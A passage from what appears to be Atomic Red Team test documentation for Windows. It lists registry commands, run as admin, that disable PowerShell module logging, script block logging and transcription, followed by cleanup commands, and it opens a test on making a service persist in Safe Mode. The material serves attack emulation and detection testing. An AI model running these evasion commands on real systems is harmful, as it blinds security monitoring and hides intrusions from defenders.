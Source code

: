 **Supported Platforms:** Windows


**auto_generated_guid:** 95b25212-91a7-42ff-9613-124aca6845a8






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg  add HKCU\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging /v EnableModuleLogging /t REG_DWORD /d 0 /f
reg  add HKCU\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging /v EnableScriptBlockLogging /t REG_DWORD /d 0 /f
reg  add HKCU\Software\Policies\Microsoft\Windows\PowerShell\Transcription /v EnableTranscripting /t REG_DWORD /d 0 /f
reg  add HKCU\Software\Policies\Microsoft\Windows\PowerShell /v EnableScripts /t REG_DWORD /d 0 /f
REM do a little cleanup immediately to avoid execution issues with later tests
reg delete HKCU\Software\Policies\Microsoft\Windows\PowerShell /v EnableScripts /f >nul 2>&1
```

#### Cleanup Commands:
```cmd
reg delete HKCU\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging /v EnableModuleLogging /f >nul 2>&1
reg delete HKCU\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging /v EnableScriptBlockLogging /f >nul 2>&1
reg delete HKCU\Software\Policies\Microsoft\Windows\PowerShell\Transcription /v EnableTranscripting /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #33 - Windows Add Registry Value to Load Service in Safe Mode without Network
Modify the registry to allow a driver, service, to persist in Safe Mode.
see https://redcanary.com/blog/tracking-driver-inventory-to-expose-rootkits/ and https://blog.didierstevens.com/2007/03/26/playing-with-safe-mode/ for further details.
Adding a subkey to Minimal with the name of your service and a default value set to Service, makes that your service will be started when you boot into Safe Mode without networking. The same applies for the Network subkey.

**Supported Platforms:** Windows


**auto_generated_guid:** 1dd59fb3-1cb3-4828-805d-cf80b4c3bbb5




